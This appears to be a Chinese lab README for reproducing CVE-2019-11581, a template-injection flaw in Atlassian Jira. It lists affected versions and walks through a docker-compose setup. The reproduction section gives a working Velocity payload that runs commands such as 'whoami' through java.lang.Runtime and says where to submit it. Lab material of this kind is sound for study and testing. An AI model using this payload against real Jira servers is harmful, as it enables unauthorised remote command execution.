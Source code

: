 # Atlassian Jira 模板注入漏洞（CVE-2019-11581）

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。
多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

## 环境搭建

执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

![](7.png)

添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`

![](8.png)

进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”

![](9.png)

貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

## 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行`poc.py`或者进入`/secure/ContactAdministrators!default.jspa` 直接提交 PoC

![](11.png)

![](12.png)

如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`

![](13.png)
